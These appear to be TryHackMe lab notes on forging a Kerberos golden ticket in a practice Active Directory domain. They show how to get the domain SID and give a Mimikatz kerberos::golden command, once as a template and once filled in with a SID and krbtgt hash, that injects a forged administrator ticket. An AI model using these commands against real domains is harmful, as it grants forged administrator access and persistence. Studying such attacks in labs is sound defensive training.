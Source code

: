 Need the krbtgt account password hash
Need Domain SID:
```
PS C:\Users\Administrator.ZA> Get-ADDomain

DomainSID                          : S-1-5-21-3885271727-2693558621-2658995185
```

Generate a golden ticket:
```
kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```

Test golden ticket
```
\\<ip or hostname>\c$\
```

kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt